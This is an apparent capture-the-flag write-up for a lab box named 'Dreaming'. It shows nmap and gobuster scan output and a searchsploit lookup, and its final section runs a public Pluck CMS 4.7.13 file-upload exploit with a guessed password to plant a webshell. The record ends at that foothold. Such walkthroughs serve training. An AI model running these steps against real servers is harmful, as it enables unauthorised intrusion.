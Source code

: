
---

# Dreaming

IP = `10.10.142.1`

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

```
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/app                  (Status: 301) [Size: 308] [--> http://10.10.142.1/app/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 276]
Progress: 4614 / 4615 (99.98%)
===============================================================
```

found `[DIR]	pluck-4.7.13/` in http://10.10.142.1/app/

### Searchsploit

```
# searchsploit pluck
-------------------------- ---------------------------------
 Exploit Title            |  Path
-------------------------- ---------------------------------
--SNIP
Pluck CMS 4.7.13 - File U | php/webapps/49909.py
--SNIP--
-------------------------- ---------------------------------
```


### Initial Foothold

```
$ python3 49909.py 10.10.142.1 80 password /app/pluck-4.7.13/

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.142.1:80/app/pluck-4.7.13//files/shell.phar
```
